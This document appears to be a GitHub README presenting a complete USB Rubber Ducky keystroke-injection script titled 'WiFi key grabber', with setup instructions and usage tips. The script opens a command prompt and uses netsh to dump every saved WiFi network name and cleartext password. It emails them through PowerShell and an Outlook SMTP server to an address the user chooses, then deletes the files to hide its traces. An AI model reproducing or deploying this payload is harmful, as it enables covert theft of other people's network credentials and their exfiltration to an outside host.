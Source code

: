 ### Change the following things:
* **ACCOUNT**: Your **hotmail/outlook account**
* **PASSWORD**: Your **hotmail/outlook password**
* **RECEIVER**: The email you want to send the content of Log.txt to

```
DELAY 1000
REM --> Minimize all windows
WINDOWS d
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 200
REM --> Get all SSID
STRING cd %USERPROFILE% & netsh wlan show profiles | findstr "All" > a.txt
ENTER
REM --> Create a filter.bat to get all the profile names
STRING echo setlocal enabledelayedexpansion^
ENTER
ENTER
STRING for /f "tokens=5*" %%i in (a.txt) do (^
ENTER
ENTER
STRING set val=%%i %%j^
ENTER
ENTER
STRING if "!val:~-1!" == " " set val=!val:~0,-1!^
ENTER
ENTER
STRING echo !val!^>^>b.txt) > filter.bat
ENTER
REM --> Run filter.bat and save all profile names in b.txt
STRING filter.bat
DELAY 300
ENTER
REM --> Save all the good stuff in Log.txt and delete the other garbage files
STRING (for /f "tokens=*" %i in (b.txt) do @echo     SSID: %i & netsh wlan show profiles name="%i" key=clear | findstr /c:"Key Content" & echo.) > Log.txt
ENTER
DELAY 1000
STRING del a.txt b.txt filter.bat
ENTER
REM --> Mail Log.txt
STRING powershell
ENTER
DELAY 1000
STRING $SMTPServer = 'smtp-mail.outlook.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSSL = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('<your email here>', '<your password here>')
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = '<your email here>'
ENTER
STRING $ReportEmail.To.Add('<email to send to>')
ENTER
STRING $ReportEmail.Subject = 'WiFi key grabber'
ENTER
STRING $ReportEmail.Body = (Get-Content Log.txt | out-string)
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
DELAY 3000
STRING exit
ENTER
DELAY 500
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER

```


### Note:

This script will grab not just the current SSID and password your computer is connecting to but every single SSID and password you have previously connected/saved on your computer. And it works even if the WiFi name contains special characters (such as a smiley face) or spaces. I'm not using gmail here because Google is pretty restrictive when it comes to 3rd party app authentication (let me know if it works with other mail server such as yahoo, zoho, etc)

You might want to adjust the DELAY depending on the system you are running e.g set a higher delay time if your system is slow.